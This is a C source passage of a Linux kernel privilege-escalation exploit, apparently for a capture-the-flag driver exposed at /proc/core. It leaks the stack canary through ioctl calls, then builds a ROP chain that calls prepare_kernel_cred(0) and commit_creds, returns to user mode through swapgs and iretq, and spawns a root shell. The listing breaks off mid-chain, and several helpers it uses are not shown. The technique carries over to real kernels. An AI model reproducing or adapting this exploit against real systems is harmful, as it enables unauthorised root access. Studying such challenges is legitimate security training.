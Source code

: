 ```C

void set_off(int fd, long long idx)
{
	printf("[*]set off to %ld\n", idx);
	ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf)
{
	puts("[*]read to buf.");
	ioctl(fd, 0x6677889B, buf);

}

void core_copy_func(int fd, long long size)
{
	printf("[*]copy from user with size: %ld\n", size);
	ioctl(fd, 0x6677889A, size);
}

int main()
{
	save_status();
	int fd = open("/proc/core", 2);
	if(fd < 0)
	{
		puts("[*]open /proc/core error!");
		exit(0);
	}
	
	find_symbols();
	// gadget = raw_gadget - raw_vmlinux_base + vmlinux_base;
	ssize_t offset = vmlinux_base - raw_vmlinux_base;

	set_off(fd, 0x40);

	char buf[0x40] = {0};
	core_read(fd, buf);
	size_t canary = ((size_t *)buf)[0];
	printf("[+]canary: %p\n", canary);

	size_t rop[0x1000] = {0};

	int i;
	for(i = 0; i < 10; i++)
	{
		rop[i] = canary;
	}
	rop[i++] = 0xffffffff81000b2f + offset; // pop rdi; ret
	rop[i++] = 0;
	rop[i++] = prepare_kernel_cred;			// prepare_kernel_cred(0)

	rop[i++] = 0xffffffff810a0f49 + offset; // pop rdx; ret
	rop[i++] = 0xffffffff81021e53 + offset; // pop rcx; ret
	rop[i++] = 0xffffffff8101aa6a + offset; // mov rdi, rax; call rdx; 
	rop[i++] = commit_creds;
	
	rop[i++] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
	rop[i++] = 0;

	rop[i++] = 0xffffffff81050ac2 + offset; // iretq; ret; 

	rop[i++] = (size_t)spawn_shell;			// rip 
```